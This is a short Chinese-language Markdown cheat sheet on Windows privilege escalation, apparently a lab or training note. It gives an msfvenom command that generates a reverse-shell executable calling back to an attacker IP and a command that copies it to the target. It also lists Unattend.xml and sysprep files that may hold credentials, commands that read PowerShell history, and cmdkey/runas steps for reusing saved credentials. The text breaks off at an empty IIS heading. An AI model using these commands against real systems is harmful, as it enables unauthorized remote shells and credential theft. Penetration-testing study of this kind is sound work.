 # windows提权
- [windows提权](#windows提权)
  - [反shell](#反shell)
  - [滥用服务错误配置](#滥用服务错误配置)
  - [滥用危险的特权](#滥用危险的特权)
  - [滥用易受攻击的软件](#滥用易受攻击的软件)
  - [其他提权工具](#其他提权工具)
- [实战](#实战)
  - [命令\&工具](#命令工具)
    - [SAM文件](#sam文件)




## 反shell

生成反shell:  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.135 LPORT=1234 -f exe -o reverse.exe

传到Windows上：    
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe


**无人值守的 Windows 安装**

可能存在的位置： 
``````
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
``````
 作为这些文件的一部分，您可能会遇到凭据：
``````
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
``````
**Powershell 历史**

cmd:  
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
powershell:  
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt   

**保存的 Windows 凭据**

cmdkey /list

runas /savecred /user:admin cmd.exe
**IIS 配置**
